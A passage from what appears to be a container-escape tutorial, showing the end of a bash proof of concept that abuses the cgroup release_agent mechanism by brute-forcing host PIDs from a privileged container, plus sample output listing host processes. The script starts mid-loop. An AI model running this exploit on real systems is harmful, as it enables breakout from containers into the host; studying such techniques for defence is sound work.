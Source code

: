 ```bash
  then
    echo "Checking pid ${TPID}"
    if [ ${TPID} -gt ${MAX_PID} ]
    then
      echo "Exiting at ${MAX_PID} :-("
      exit 1
    fi
  fi
  # Set the release_agent path to the guessed pid
  echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
  # Trigger execution of the release_agent
  sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
  TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```

Executing the PoC within a privileged container should provide output similar to:

```bash
root@container:~$ ./release_agent_pid_brute.sh
Checking pid 100
Checking pid 200
Checking pid 300
Checking pid 400
Checking pid 500
Checking pid 600
Checking pid 700
Checking pid 800
Checking pid 900
Checking pid 1000
Checking pid 1100
Checking pid 1200

Done! Output:
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 11:25 ?        00:00:01 /sbin/init
root         2     0  0 11:25 ?        00:00:00 [kthreadd]
root         3     2  0 11:25 ?        00:00:00 [rcu_gp]
root         4     2  0 11:25 ?        00:00:00 [rcu_par_gp]
root         5     2  0 11:25 ?        00:00:00 [kworker/0:0-events]
root         6     2  0 11:25 ?        00:00:00 [kworker/0:0H-kblockd]
root         9     2  0 11:25 ?        00:00:00 [mm_percpu_wq]
root        10     2  0 11:25 ?        00:00:00 [ksoftirqd/0]
...
```

#### Privileged Escape Abusing Sensitive Mounts
